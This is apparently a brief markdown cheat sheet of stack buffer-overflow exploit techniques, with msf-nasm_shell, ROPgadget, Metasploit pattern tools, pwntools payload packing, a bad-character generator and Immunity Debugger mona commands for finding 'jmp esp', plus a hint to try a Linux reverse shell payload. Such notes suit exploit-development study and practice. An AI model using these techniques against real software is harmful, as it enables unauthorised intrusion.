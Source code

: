 # simple binary exploits

## jmp esp instruction FF E4
```bash
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
```

### find with ROPgadget
```bash
ROPgadget --binary VulnApp1.exe | grep 'jmp esp'
```

## pattern offset finding
### create pattern with length with pattern create
```bash
msf-pattern_create -l 0xABC
# find offset - hex
msf-pattern_offset -q 0x33445566
```

## python exploit scripts

### import pwntools
```python
from pwn import *
```

### all bad characters
```python
knownBadChars = b"\x00\x0a\x0d"
allBadChars = bytes( [r for r in range(256) if r not in knownBadChars])
```

### pwntools flat pack buffer offsets
example at offset 500 in buffer
```python
payload = flat({
    500: JMP_ESP,
    504: buf
})
```

## payload generation

### changing architecture
exe runing on linux with wine -> try linux reverse shell payload

# immunity debugger mona commands

## list loaded modules and security flags
```
!mona modules
```

## search for opcode string jmp esp

### in exe
```
!mona jmp -r esp -cpb "<BAD_CHARS>"
```

### inside module
```
!mona find -s "\xFF\xE4" -m ModuleName.exe
!mona find -s "\xFF\xE4" -m ModuleName.dll
```

